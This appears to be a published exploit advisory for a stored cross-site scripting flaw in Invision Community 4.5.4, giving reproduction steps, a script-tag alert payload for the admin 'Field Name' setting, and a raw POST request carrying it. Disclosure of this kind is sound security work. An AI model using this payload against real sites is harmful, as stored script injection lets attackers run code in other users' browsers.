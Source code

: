 # Invision Community 4.5.4 - 'Field Name' Stored Cross-Site Scripting
## Exploit Author: Hemant Patidar (HemantSolo)
## Vendor Homepage: https://invisioncommunity.com/
## Software Link: https://invisioncommunity.com/buy
## Version: 4.5.4
## Tested on: Windows 10 PHP 5.4.5 Apache 2.4.23


 
1. Go to the Invision Community admin page.
2. Now go to the Members - MEMBER SETTINGS - Profiles.
3. Now click on Add Profile field.
4. Put the below payload in Field Name:
"<script>alert(123)</script>"
5. Now click on Save button.
6. The XSS will be triggered.
 
 Vulnerable Parameters: Field Name.
 
 ```
POST /admin/?app=core&module=membersettings&controller=profiles&tab=profilefields&subnode=1&do=form&parent=3&ajaxValidate=1 HTTP/1.1
Host: 127.0.0.1

 
form_new_activeTab=&form_new_submitted=1&csrfKey=3ffc7a5774ddc0d2a7142d2072191efc&MAX_FILE_SIZE=20971520&pf_title%5B1%5D=%3Cscript%3Ealert(123)%3C%2Fscript%3E&pf_desc%5B1%5D=Test&pf_group_id=3&pf_type=Text&pf_allow_attachments=0&pf_allow_attachments_checkbox=1&pf_content%5B0%5D=&pf_multiple=0&pf_max_input=0&pf_input_format=&pf_member_edit=0&pf_member_edit_checkbox=1&radio_pf_member_hide__empty=1&pf_member_hide=all&radio_pf_topic_hide__empty=1&pf_topic_hide=hide&pf_search_type=loose&pf_search_type_on_off=exact&radio_pf_profile_format__empty=1&pf_profile_format=default&pf_profile_format_custom=&radio_pf_format__empty=1&pf_format=default&pf_format_custom=
 
 ```
